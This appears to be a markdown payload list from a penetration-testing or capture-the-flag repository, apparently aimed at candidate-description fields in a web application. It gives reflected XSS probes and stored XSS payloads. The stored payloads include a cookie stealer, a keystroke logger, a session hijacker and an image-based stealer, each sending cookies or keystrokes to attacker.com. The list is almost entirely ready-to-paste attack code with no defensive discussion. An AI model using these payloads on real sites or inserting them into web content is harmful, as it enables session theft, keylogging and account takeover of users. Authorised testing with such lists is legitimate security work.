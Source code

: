 
## 🕷️ XSS Payloads

### Reflected XSS
```html
<!-- Basic alerts -->
<script>alert('XSS')</script>
<script>alert(1)</script>
<script>alert(document.cookie)</script>

<!-- Image-based -->
<img src=x onerror=alert('XSS')>
<img src=x onerror=alert(document.cookie)>
<img/src=x onerror=alert(1)>

<!-- SVG-based -->
<svg onload=alert('XSS')>
<svg/onload=alert(1)>

<!-- Body tag -->
<body onload=alert('XSS')>

<!-- Input field -->
"><script>alert('XSS')</script>
'><script>alert('XSS')</script>

<!-- Event handlers -->
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus>
<textarea onfocus=alert('XSS') autofocus>

<!-- Link-based -->
<a href="javascript:alert('XSS')">Click</a>
```

### Stored XSS (for candidate descriptions)
```html
<!-- Basic stored XSS -->
<script>alert('Stored XSS')</script>

<!-- Cookie stealer -->
<script>
fetch('http://attacker.com/steal?cookie=' + document.cookie)
</script>

<!-- Keylogger -->
<script>
document.onkeypress = function(e) {
    fetch('http://attacker.com/log?key=' + e.key);
}
</script>

<!-- Session hijacker -->
<script>
window.location='http://attacker.com/steal?session=' + document.cookie;
</script>

<!-- Image-based stealer -->
<img src=x onerror="this.src='http://attacker.com/steal?c='+document.cookie">
```
